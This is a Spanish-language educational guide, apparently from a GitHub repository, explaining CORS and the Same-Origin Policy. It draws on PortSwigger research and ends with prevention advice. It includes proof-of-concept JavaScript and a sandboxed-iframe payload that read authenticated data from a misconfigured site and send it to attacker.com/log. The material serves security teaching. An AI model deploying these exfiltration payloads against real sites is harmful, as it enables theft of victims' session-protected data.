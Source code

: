 # Cross-Origin Resource Sharing

## 📂 Introducción

CORS (Cross-Origin Resource Sharing) es un mecanismo implementado por los navegadores modernos que permite el acceso controlado a recursos ubicados en un dominio distinto al de la página que realiza la solicitud. Esta guía, basada en el contenido de [PortSwigger Research](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties), explica qué es CORS, cómo funciona, ejemplos de configuraciones vulnerables y cómo prevenir ataques relacionados.

## ❓ ¿Qué es CORS?

CORS es un protocolo basado en cabeceras HTTP que permite a un servidor indicar qué orígenes (dominios) externos pueden acceder a sus recursos. Su propósito es **relajar la Same-Origin Policy (SOP)**, una política de seguridad que impide que un sitio web lea contenido de otro sitio diferente.

> ⚠ Importante: CORS **no es una defensa contra ataques cross-origin como CSRF**.

## 🔐 Same-Origin Policy (SOP)

La SOP impide que scripts cargados desde un origen accedan a datos de otro origen diferente (diferente dominio, puerto o protocolo). Esta restricción protege la privacidad del usuario al evitar fugas de información entre sitios.

### Ejemplo:

Un script cargado desde `https://ejemplo.com` **no podrá acceder** al contenido de `https://api.ejemplo.com` sin una política CORS adecuada.

## ⚖️ Flexibilización controlada mediante CORS

CORS permite que el servidor indique explícitamente qué orígenes están autorizados para acceder a sus recursos, usando cabeceras como:

* `Access-Control-Allow-Origin`
* `Access-Control-Allow-Credentials`
* `Access-Control-Allow-Methods`
* `Access-Control-Allow-Headers`

El navegador realiza una "negociación" previa (preflight) cuando se trata de solicitudes complejas, utilizando el método `OPTIONS` para consultar las reglas del servidor.

## ⚡ Ejemplo de ataque por mala configuración de CORS

### Caso: servidor refleja el header `Origin`

**Solicitud maliciosa:**

```http
GET /sensitive-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://attacker.com
Cookie: sessionid=...
```

**Respuesta del servidor vulnerable:**

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

**Exploit en JavaScript:**

```javascript
var req = new XMLHttpRequest();
req.onload = function() {
    location = 'https://attacker.com/log?data=' + this.responseText;
};
req.open('GET', 'https://vulnerable-website.com/sensitive-data', true);
req.withCredentials = true;
req.send();
```

```javascript
// 🧠 Explicación detallada del script CORS con robo de datos

// Este script utiliza XMLHttpRequest para hacer una solicitud entre sitios (cross-origin request)
// a una web vulnerable con CORS mal configurado.

var req = new XMLHttpRequest();

// 🔍 req.onload:
// Esta función se ejecuta cuando la respuesta del servidor vulnerable llega.
req.onload = function() {
    // 🔒 Envío de datos robados:
    // Una vez que el navegador recibe la respuesta, se redirige a un dominio malicioso
    // incluyendo los datos sensibles como parámetro en la URL.
    location = 'https://attacker.com/log?data=' + this.responseText;
};

// ✈️ Configuramos la solicitud para apuntar a la información sensible
req.open('GET', 'https://vulnerable-website.com/sensitive-data', true);

// ⛔️ withCredentials:
// Esto indica que la solicitud debe incluir cookies de sesión, lo cual es necesario
// para acceder a datos autenticados en el sitio vulnerable.
req.withCredentials = true;

// ⏳ Enviamos la solicitud
req.send();

/*
📅 Resumen del flujo:
1. El navegador del usuario carga esta página (en el dominio del atacante).
2. El script hace una solicitud GET a un sitio vulnerable con CORS.
3. Si el sitio vulnerable permite origen cruzado (y Access-Control-Allow-Credentials: true),
   la respuesta se recibe en el navegador.
4. El script redirige al usuario a attacker.com incluyendo los datos robados en la URL.

⚠️ Este tipo de ataque es posible sólo si:
- La web vulnerable permite el origen cruzado de forma laxa.
- Se permite el uso de cookies mediante withCredentials + Access-Control-Allow-Credentials: true.
*/
```


Este código permite al atacante **leer información sensible** desde el navegador de la víctima autenticada.

## 🚨 Otras configuraciones inseguras

### 🔒 1. Errores en el parseo de dominios

* Whitelist mal implementada: permitir cualquier dominio que termine en `example.com` puede permitir `attackerexample.com`
* O permitir cualquier dominio que comience con `example.com` permite `example.com.attacker.com`

### 🔒 2. Whitelist que acepta `null` como origen

Navegadores pueden enviar `Origin: null` en ciertos escenarios:

* `file://` URLs
* iframes con sandbox
* Redirecciones entre sitios

**Respuesta vulnerable:**

```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**Exploit con iframe sandbox:**

```html
<iframe sandbox="allow-scripts allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = function() {
  location = 'https://attacker.com/log?data=' + this.responseText;
};
req.open('GET', 'https://vulnerable.com/data', true);
req.withCredentials = true;
req.send();
</script>"></iframe>
```

## ᾑ6 Consejos para prevenir ataques CORS

* **Nunca reflejar el ********`Origin`******** directamente** en `Access-Control-Allow-Origin`.
* Usar una **whitelist validada con exactitud** (sin regex permisivos).
* \*\*Nunca permitir \*\***`Access-Control-Allow-Credentials: true`** junto con `*` como origen.
* Bloquear `Origin: null` salvo que sea explícitamente necesario.
* Monitorear las cabeceras de respuesta y realizar auditorías regulares.

## 🔗 Enlaces de interés

* [CORS official MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
* [Same-Origin Policy explicada](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
* [CORS vulnerability research by PortSwigger](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [CORS misconfig checker](https://github.com/s0md3v/Corsy)

---

